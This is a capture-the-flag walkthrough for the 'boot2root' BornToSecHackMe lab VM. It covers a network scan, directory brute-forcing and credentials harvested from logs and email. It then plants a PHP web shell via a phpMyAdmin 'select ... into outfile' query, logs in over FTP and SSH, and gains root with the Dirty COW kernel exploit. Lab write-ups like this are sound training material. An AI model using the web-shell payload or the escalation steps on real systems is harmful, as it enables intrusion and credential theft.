 ## Searching IP address of out virtual machine.

``
ifconfig - needed for searching IP. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](/imgs/img1.png)

## Using nmap to find info about our IP address.
``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh
Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/imgs/img2.png)
``172.16.101.128 IP of our VM``

## Checking links by address.
``git clone https://github.com/v0re/dirb.git``

### Install and use dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``

## Checking links of forum.
After logging in to the forum, we find a branch of 'Probleme login?'.

Walking through the logs we find two lines:

### The first input was supposed to be confused lines for login and password.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/imgs/img3.png)

### In the second login was correct.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/imgs/img4.png)

## Attempt to enter the e-mail with the received login and password.
Follow the link ``https://172.16.101.128/webmail/src/login.php``

With login ``lmezard`` and password ``!q\]Ej?*5K5cy*AJ`` not working.

Trying to search login ``lmezard`` in google :
![
Google info about lmezard. Laurie Mezard
](/imgs/img5.png)
We were given the full name Laurie Mezard. Trying different options for login.

The option we need is `` laurie@borntosec.net``.

Enter the email `` login: laurie@borntosec.net` and `` password:! !q\]Ej?*5K5cy*AJ``

Searching info in mail we find a letter:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/imgs/img6.png)
Find the password and login for the database ``login: root`` and ``password: Fg-'kKXBj87E:aJ$``

## Attempt to login phpmyadmin.
Follow the link ``https://172.16.101.128/phpmyadmin/``

With login and password we enter in the database.

After searching the network, we find an exploit for db.

``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``

Go to the sqltab in the same phpmyadmin window to which we are logged in.

Execute the script.

Script created a new template for the link ``https://172.16.101.128/forum/templates_c/pokemon.php`` where we can find ``lmezard:G!@M6f4Eatau{sF"``.

## Attempt to connect by ftp.
``ftp 172.16.101.128``

``login: lmezard``

``password: G!@M6f4Eatau{sF"``

Login was successful, checking the directory:
![
README.md
fun
](/imgs/img7.png)
Now we downloading file ``get fun ~/boot2root/fun``

In the file a lot of different information, if you look at the file type ``file fun`` we found out that file is an archive.

Unzip the archive ``tar xvf fun``

We receive the whole folder with different files. When viewing each file, we recognize that there is a line with a license plate and a piece of code.

We use a small script that will collect everything from the files, sort it and then create a new main.c file.
``python unpack.py``

``gcc main.c``

``./a.out``

After run we get:
``
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
``

Encrypt it in SHA-256 and get:

``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
## Attempt to login via ssh.
``ssh laurie@172.16.101.128``

``login: laurie``

``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``

Login was success.

Now we need to find out what kind of server it is to correctly google exploit for root.

``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
With the obtained data, we do a search in Google and find this [link](https://www.exploit-db.com/exploits/40839).

Create this script on the server, we did it through vim.

``touch pokemon.c``

``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``

``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``

Now we set some password.

``su firefart``
# U are root.

















